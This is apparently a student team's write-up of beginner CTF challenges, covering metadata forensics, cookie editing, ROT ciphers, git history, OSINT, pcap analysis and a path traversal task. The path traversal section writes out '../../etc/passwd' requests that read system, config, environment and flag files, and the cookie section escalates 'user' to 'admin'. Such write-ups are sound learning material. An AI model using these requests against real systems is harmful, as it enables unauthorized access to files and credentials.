





# Challenge Name
Zahard Welcome

## My solve
**Flag:** `citadel{7h3_c174d3l_b3ck0n5}`

It told us to visit the place everywhere gathers so I first checked into the general section of the official discord server but in the meanwhile my teammate checked for other sections eventually we got the flag simply pasted in `Rules` Section of Discord.

## What I learned
Basic Searching Through Discord

## References 
None


# Challenge Name
Omniscent Metadata

## My solve
**Flag:** `citadel{th1s_ch4ll3ng3_1s_f0r_th4t_0n3_ex1ft00l_4nd_b1nw4lk_enthus14st}`

1. I firstly went to a metadata extracter website and took out teh metadata inside the metadata it was written "kdj has the habit of hiding image inside an image".
2. I first thought this can be a steganography question just like the one in ChildrenOfNite challenge so I ran the command `steghide extract -sf challenge.jpg` but to run such commands you need to know the paraphase which I didn't in this case.
3. Since I wasn't sure what to do next I searched `How to find a image inside an image` there I found a video by ctf school on binwalker and next I used binwalker to finally get the flag.
Note: After reading the official Write-up I understood that this exercise was very easy and I just had to use `foremost`

## What I learned
How to use Binwalker

## References 
CTF SCHOOL VIDEO: https://youtube.com/shorts/79k8Ps82VaM?si=P_R8a5GROaRn8ZDv


# Challenge Name
Taste Of Sweetness

## My solve
**Flag:** `citadel{fru1tc4k3_4nd_c00k13s}`

This one was comparatively easier for me. I have learnt MERN stack in the past and hence knew about the cookie feature before-hand. So when the website told me "How does website remember you" I just opened the inspect window and edited the cookie value from user to admin by going into Application part of inspect.

## What I learned
Cookie editing

## References 
None


# Challenge Name
Rotten Apple

## My solve
**Flag:** `citadel{b3tt3r_ROTt3n}`

My teammate put the ciphertext into google to realise it was `ROT cipher` after that we used Chatgpt to do the remain 13 and 47 shift and got the flag.

## What I learned
ROT Cipher

## References 
Chatgpt


# Challenge Name
Randomly accessed Memory

## My solve
**Flag:** `citadel{w3_4r3_up_4ll_n1t3_t0_g1t_lucky}`

1.Since I saw 
```bash
clone it, pull it, reset it, stage it, 
commit, push it, fork, rebase it. 
merge it, branch it, tag it, log it, 
add it, stash it, diff, untrack it … 
```
I thought I just had to execute these commands using bash on the repo link given. So i went into my bash and i tried to clone it but the access was denied so I understood this wasn't the right way and hence i decided to look furthur.
2.My teammates started searching through all files and I started searching the commits. I found the first suspicious commit with the name `Remove secret chunk 3 file (history-only)` I loaded it and got a strange ciphertext. Putting it into chatgpt it told me that it was a base64 encode text and the decoded text is this: `dDBfZzF0X2x1Y2t5fQ== → t0_g1t_lucky}` now i knew that we are on the right path and hence we all started searching the commit history and eventually getting all the parts of the flag.
## What I learned
Reading the commit history of a repository.

## References 
None


# Challenge Name
Robot's trail

## My solve
**Flag:** `citadel{p4th_tr4v3rs4l_m4st3ry_4ch13v3d}`

1. I first did inspect to know more about the website code there I saw `/robots.txt` inside a href tag using that i entered `websiteurl/robots.txt` and found
```bash
User-agent: *

# We value our digital privacy and have restricted access to certain system-level configurations.
Disallow: /file?path=../../etc/passwd
Disallow: /file?path=../../../etc/passwd

# Hint for curious explorers: 
# Sometimes system files like /etc/passwd can reveal interesting information...
# But remember to respect privacy boundaries!
```
Now I knew that we had to do url manipulation to finally get to the page which will give me the flag. So I told chatgpt all the relevant info and asked it for all possible urls that will take me to the final page containing the flag. Firstly I went to `/file?path=../../etc/passwd` this gave me 
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
webadmin:x:1000:1000:Check the web server config at /var/www/html/config.php:/home/webadmin:/bin/bash
```
Now trying various commands and stuff I progressed in the following way:
```bash
<?php
// Database configuration
$db_host = 'localhost';
$db_user = 'admin';
$db_pass = 's3cr3t_p@ssw0rd';
// Debug info: Check the access logs for unusual activity
// Log location: /var/log/apache2/access.log
?>
```
```bash
127.0.0.1 - - [01/Jan/2023:10:30:45 +0000] "GET / HTTP/1.1" 200 1234 "-" "Mozilla/5.0"
192.168.1.100 - - [01/Jan/2023:10:31:22 +0000] "GET /file?path=../../etc/passwd HTTP/1.1" 200 567 "-" "Python-urllib"
10.0.0.50 - - [01/Jan/2023:10:32:15 +0000] "GET /admin HTTP/1.1" 404 289 "-" "curl"
# Interesting environment variables might be found at /proc/self/environ
203.0.113.5 - - [01/Jan/2023:10:33:01 +0000] "POST /login HTTP/1.1" 302 - "-" "Mozilla/5.0"
```
```bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOSTNAME=web-server-01
USER=www-data
HOME=/var/www
SECRET_LOCATION=/home/ctf/.secret
PWD=/var/www/html
LANG=C.UTF-8
SHLVL=1
```
```bash
Directory listing for /home/ctf/.secret:
total 12
drwx------ 2 ctf ctf 4096 Jan  1 10:00 .
drwxr-xr-x 5 ctf ctf 4096 Jan  1 09:55 ..
-r-------- 1 ctf ctf   48 Jan  1 10:00 flag.txt
```
```bash
https://therobotstrail.citadel.cryptonitemit.in/file?path=/home/ctf/.secret/flag.txt
```
This url finally gave me the flag.

## What I learned
URL manipulation

## References 
Chatgpt


# Challenge Name
schlagenheim

## My solve
**Flag:** `citadel{8lackM1D1wa5c00l}`

1. I first saw the header of the file using the `xxd` command
```bash
xxd mysong.wav | head
```
After seeing the header it was clear that the file is MIDI file and hence i opened the file in a hex editor and change the first four bytes as: `4D 54 68 64` which is the original header of a MIDI file.
```bash
hexedit mysong.wav
```
Then I finally renamed the file with `.mid` extension
```bash
mv mysong.wav mysong.mid
```
2. After reparing the file I opened it using a MIDI file viewer and got the flag as shown in the screenshot below:



## What I learned
File repairing using xxd and midi file format

## References 
Gemini AI


# Challenge Name
XOR Slide

## My solve
**Flag:** ``

I have read a bit of cryptography and suspected it can be the same XOR function that is used in various encryption standards and ciphers such as "DES" i.e Data Encryption Standard.
Unfortunately I had zero idea about how to make a python script to solve the question. Because of this I decided to take the help of AIs to see if they by any chance knew how to make the python script that can solve it. The AI made a lot of python script(around 10) and after trying everything one by one I finally got the flag(Unfortunately I am not able to find the exact py file which I used for getting the flag eventually).

## What I learned
XOR decryption

## References 
Chatgpt and Gemini


# Challenge Name
Sound of Music

## My solve
**Flag:** `citadel{c0mputers_st0pped_exchang1ng_1nf0rmat10n_n_started_shar1ng_st0r1es_n_then_they_were_n0where_t0_be_f0und}`

1. In this question I first searched for all music related apps where you can rate/review music. After knowing the names I created my profile on all those websites to understand how they store user profile urls.
For eg. rate your music stores profile data with this url :"https://rateyourmusic.com/~AKG451" where AKG451 is my username so I basically just changed AKG451 in all such websites by citadweller and got to the profile of `citadweller` eventually I found all three parts of the flag i.e `citadel{c0mputers_st0pped_exchang1ng_1nf0rmat10n` from `last.fm/user/citadweller`, `_n_started_shar1ng_st0r1es` from `https://rateyourmusic.com/~citadweller` and `_n_then_they_were_n0where_t0_be_f0und}` from the tinyurl link on rate your music `http://tinyurl.com/citadweller`

## What I learned
OSINT

## References 
Google


# Challenge Name
Echoes and Pings

## My solve
**Flag:** `citadel{7h3_c174d3l_b3ck0n5}`

1. When i first saw the `pcap` file my first reaction was searching on the internet to understand "how to analyse a pcap file". The first answer was `wireshark` so I installed wireshark and loaded the file into it. Unfortunately I didn't understood anything that was being displayed there.
2. So it was time to search on youtube for "How to use wireshark to analyse pcap" I have attached the link of the video I used to learn about it plus I also asked AI what can be the process of analysing such files. Chatgpt suggested me to look into "ICMP" that is internet control message protocol since that's what deals with echoes and pings.
3. I am attaching images to show what I did and how I did:

image1:Start Screen after Loading the file

image2:Filtering to icmp only

image3:Opening the first protocol

4.Now I saw the text "jfif" searched for it on chatgpt and got to know that there is a image hidden in it.
5. To extract that image chatgpt wrote a scapy python code which I ran and got the answer using that python script.
6. the python script: 
```bash
from scapy.all import rdpcap, Raw

# The name of your pcap file
pcap_file = 'challenge.pcap'

# Variable to hold the reassembled file data
full_data = b''

# Read the pcap file
packets = rdpcap(pcap_file)

# Loop through every packet in the file
for packet in packets:
    # Check if the packet has an ICMP layer AND a data payload (Raw layer)
    if packet.haslayer('ICMP') and packet.haslayer('Raw'):
        # Extract the raw data payload and append it
        full_data += packet['Raw'].load

# Write the combined binary data to a new file
with open('extracted_file', 'wb') as f:
    f.write(full_data)

print(f"Extraction complete! Data saved to 'extracted_file'.")
print("Next, use the 'file' command to identify its type (e.g., 'file extracted_file').")
```
7. Eventually I got the image which had the flag:  
## What I learned
How to use wireshark and ICMP

## References 
yt video: "https://youtu.be/ZNS115MPsO0?si=TkDHZEyhJcw95LdI"
Chatgpt
Google